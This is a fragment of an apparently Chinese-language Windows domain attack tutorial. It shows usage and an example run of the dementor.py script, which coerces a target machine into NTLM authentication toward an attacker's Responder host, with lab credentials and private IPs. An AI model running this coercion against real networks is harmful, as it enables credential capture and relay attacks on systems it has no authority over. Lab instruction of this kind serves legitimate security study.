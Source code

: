 [![](assets/1701606771-5c23282873de04ea24266e7f77eb66c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144250-b4447d62-7c6f-1.png)  
b、使用 dementor.py 脚本  
[https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

```plain
#格式：
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>

#示例：
python3 dementor.py -d hacke.testlab -u Al1ex -p 'Kksvqm@123' 192.168.174.129 192.168.174.2
```

[![](assets/1701606771-54523eee620c592a0d7df3abc6c27e0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106144314-c2966826-7c6f-1.png)  